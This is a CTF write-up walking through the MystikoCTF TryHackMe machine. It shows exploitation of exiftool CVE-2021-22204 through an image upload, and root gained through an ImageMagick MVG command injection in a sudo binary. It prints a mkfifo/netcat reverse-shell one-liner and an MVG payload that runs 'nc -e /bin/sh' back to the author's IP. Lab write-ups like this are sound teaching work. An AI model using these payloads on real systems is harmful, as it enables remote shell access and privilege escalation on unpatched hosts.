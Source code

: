 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web thm privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

## Description

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

I unfortunately didn't have much time for the whole CTF, but I ended up sharing the third position with `cryptonic007`.

## Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)


We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)


I had to upload an image and go to burpsuite, to see what going on actually

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)


I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)


And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

## Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)


So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)


So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)


Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)


## Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)


Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)


I also opened it in ghidra, but nothing was too interesting

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)


Then I had to run the binary in my machine to see what this thing is doing actually ...

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)


Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)


The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)


And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)


2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)


4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)


And yes ! I was root and able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)
